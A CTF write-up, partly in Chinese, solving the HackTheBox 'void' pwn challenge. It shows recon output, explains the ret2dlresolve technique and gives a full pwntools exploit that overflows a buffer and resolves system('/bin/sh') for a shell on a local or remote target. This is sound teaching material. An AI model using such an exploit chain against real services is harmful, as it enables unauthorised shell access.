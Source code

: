 ```yaml
---
title: "ret2dlresolve - HTB CTF void Writeup"
description: "notes of ret2dlresolve"
publishDate: "17 Nov 2024"
updatedDate: "25 Aug 2025"
tags: ["CTF", "writeup", "pwn"]
---
```


# 初見 ret2dlresolve

在 HackTheBox CTF 看到 void 這題 結果完全沒想法

- x86_64
- dynamic link
- no pie
- no canary
- 有給 libc
- 整個程式就只 call 了一個 read
&darr; **file**

```plaintext
void: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=a5a29f47fbeeeff863522acff838636b57d1c213, for GNU/Linux 3.2.0, not stripped
```

&darr; **checksec**

```plaintext
Arch:       amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'./glibc/'
Stripped:   No
```

&darr; **info functions**

```plaintext
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  read@plt
0x0000000000401040  _start
0x0000000000401070  _dl_relocate_static_pie
0x0000000000401080  deregister_tm_clones
0x00000000004010b0  register_tm_clones
0x00000000004010f0  __do_global_dtors_aux
0x0000000000401120  frame_dummy
0x0000000000401122  vuln
0x0000000000401143  main
0x0000000000401160  __libc_csu_init
0x00000000004011c0  __libc_csu_fini
0x00000000004011c4  _fini
```

&darr; **disassemble main**

```plaintext
pwndbg> disassemble main
Dump of assembler code for function main:
   0x0000000000401143 <+0>:     push   rbp
   0x0000000000401144 <+1>:     mov    rbp,rsp
   0x0000000000401147 <+4>:     sub    rsp,0x10
   0x000000000040114b <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x000000000040114e <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000401152 <+15>:    call   0x401122 <vuln>
   0x0000000000401157 <+20>:    mov    eax,0x0
   0x000000000040115c <+25>:    leave
   0x000000000040115d <+26>:    ret
End of assembler dump.
```

# 想法

- 有給 libc 那看來八成是要 ret2libc 之類的
- 但只有一個 read 完全沒有輸出 根本不知道怎麼 leak
- 看到 *__libc_csu_init* 但是根本沒有 *syscall* gadget
- 查到一個我完全看不懂的解法

> ret2dlresolve

為什麼說看不懂呢 因為大家的解法都是用 pwntools 寫腳本就完事

```python
offset = 72
dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh\x00"])

rop = ROP(exe)
rop.raw('A'*offset)
rop.read(0, dlresolve.data_addr) # 觸發 read 再讀一次
rop.ret2dlresolve(dlresolve) # 觸發 dlresolve 解析我們輸入的 system 腳本
raw_rop = rop.chain()

print("============ Dumping ROP =============")
info(rop.dump())
print("======================================")

sl(raw_rop)
sl(dlresolve.payload)
r.interactive()
```

這是我解這題用的部分腳本 就 蠻噁心的  
我甚至從來不知道 pwnlib 有 rop 這東西  
更不知道還可以用 rop.read 直接呼叫  
更更不知道有個東西叫 Ret2dlresolvePayload 直接把東西都幫我寫好了  
第一次感受到 pwntools 的偉大

# Ret2dlresolve

## 原理

我們知道在執行一個動態編譯的程式時
呼叫一個函式 -> plt -> got -> libc
下次呼叫同一個函式時就可以直接在 got 中找

而 linux 中用了下面的函式來動態鏈結到 libc
> _dl_runtime_resolve(link_map_obj, reloc_offset)

而他會調用到的東東都在 **.dynamic section**
所以我們只要有辦法修改 **.dynsym (動態字符串表)** 就可以隨便解析任何函式!!!  
**但是**這東西可想而知，是唯獨的，所以我們有了新的想法  
因為動態鍊結器會從 **.dynamic** 中索引到目標，所以修改這個行得通  
又或者偽造 **link map** 控制程式執行目標函式

## Exploit

```python
from pwn import *
import sys
import time
context.log_level = "debug"
context.terminal = ["wt.exe", "wsl.exe"]
context.arch = "amd64"
exe = context.binary = ELF("./void")
libc = ELF("glibc/libc.so.6")
def one_gadget(filename: str) -> list:
    return [
        int(i) for i in __import__('subprocess').check_output(
            ['one_gadget', '--raw', filename]).decode().split(' ')
    ]
# brva x = b *(pie+x)
# set follow-fork-mode
# p/x $fs_base
# vis_heap_chucks
# set debug-file-directory /usr/src/glibc/glibc-2.35
# directory /usr/src/glibc/glibc-2.35/malloc
# handle SIGALRM ignore

"""
sc = asm(
    shellcraft.i386.linux.open(b'/home/chal/flag') +
    shellcraft.i386.linux.read('eax', 'esp', 50) +
    shellcraft.i386.linux.write('1', 'esp' ,50)
)
"""

if len(sys.argv) == 1:
    r = process("./void")
    if args.GDB:
        gdb.attach(r)
elif len(sys.argv) == 3:
    r = remote(sys.argv[1], sys.argv[2])
else:
    print("Usage: python3 {} [GDB | REMOTE_IP PORT]".format(sys.argv[0]))
    sys.exit(1)
s      = lambda data                :r.send(data)
sa     = lambda x, y                :r.sendafter(x, y)
sl     = lambda data                :r.sendline(data)
sla    = lambda x, y                :r.sendlineafter(x, y)
ru     = lambda delims, drop=True   :r.recvuntil(delims, drop)
rl     = lambda                     :r.recvline()
uu32   = lambda data, num           :u32(r.recvuntil(data)[-num:].ljust(4, b'\x00'))
uu64   = lambda data, num           :u64(r.recvuntil(data)[-num:].ljust(8, b'\x00'))
leak   = lambda name, addr          :log.success('{} = {}'.format(name, addr))
l32    = lambda                     :u32(r.recvuntil("\xf7")[-4:].ljust(4, b'\x00'))
l64    = lambda                     :u64(r.recvuntil("\x7f")[-6:].ljust(8, b'\x00'))
raw_input()
"""
0x0000000000023796 : pop rdi ; ret
196152 /bin/sh
system:0x45e50
"""
offset = 72
dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh\x00"])

rop = ROP(exe)
rop.raw('A'*offset)
rop.read(0, dlresolve.data_addr) # trigger read again
rop.ret2dlresolve(dlresolve) # trigger dlresolve to redirect the address of system

raw_rop = rop.chain()

print("============ Dumping ROP =============")
info(rop.dump())
print("======================================")

sl(raw_rop)
sl(dlresolve.payload)
r.interactive()%                                                                                                                    
```
